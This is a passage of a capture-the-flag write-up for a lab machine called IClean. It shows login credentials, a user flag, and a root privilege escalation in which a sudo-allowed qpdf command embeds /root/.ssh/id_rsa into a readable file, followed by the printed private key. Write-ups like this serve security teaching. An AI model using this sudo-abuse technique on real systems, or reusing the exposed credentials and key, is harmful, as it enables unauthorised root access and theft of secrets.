 ![Writeup-12.png](/assets/images/Machines/IClean/Writeup-12.png)

> Creds: `consuela:simple and clean`
{: .prompt-tip }

## SSH (22)

### User.txt

```bash
consuela@iclean:~$ cat user.txt
a6fbf50e9e23838f9af7701139dbc25a
```

### Privilege Escalation

```bash
consuela@iclean:~$ sudo -l
Matching Defaults entries for consuela on iclean:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User consuela may run the following commands on iclean:
    (ALL) /usr/bin/qpdf
```

GTFOBins didn't have this binary, so look into the official docs: [https://qpdf.readthedocs.io/en/stable/cli.html](https://qpdf.readthedocs.io/en/stable/cli.html)

```bash
consuela@iclean:~$ sudo /usr/bin/qpdf --empty /home/consuela/id_rsa --qdf --add-attachment /root/.ssh/id_rsa --
consuela@iclean:~$ grep -Poz '(?s)----.*----\n' id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAaAAAABNlY2RzYS
1zaGEyLW5pc3RwMjU2AAAACG5pc3RwMjU2AAAAQQQMb6Wn/o1SBLJUpiVfUaxWHAE64hBN
vX1ZjgJ9wc9nfjEqFS+jAtTyEljTqB+DjJLtRfP4N40SdoZ9yvekRQDRAAAAqGOKt0ljir
dJAAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBAxvpaf+jVIEslSm
JV9RrFYcATriEE29fVmOAn3Bz2d+MSoVL6MC1PISWNOoH4OMku1F8/g3jRJ2hn3K96RFAN
EAAAAgK2QvEb+leR18iSesuyvCZCW1mI+YDL7sqwb+XMiIE/4AAAALcm9vdEBpY2xlYW4B
AgMEBQ==
-----END OPENSSH PRIVATE KEY-----
```
